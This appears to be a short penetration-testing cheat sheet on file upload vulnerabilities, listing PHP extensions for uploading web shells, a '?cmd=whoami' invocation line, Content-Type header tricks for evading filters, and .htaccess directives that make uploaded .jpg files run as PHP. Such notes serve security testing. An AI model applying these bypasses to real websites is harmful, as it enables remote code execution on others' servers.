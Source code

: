 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.
## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.
application/x-php	Old trick if server-side allows this — rare now.
application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.
text/plain	Might bypass if the app only checks for image MIME types.
multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.
text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.
image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"
AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the jpg

AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

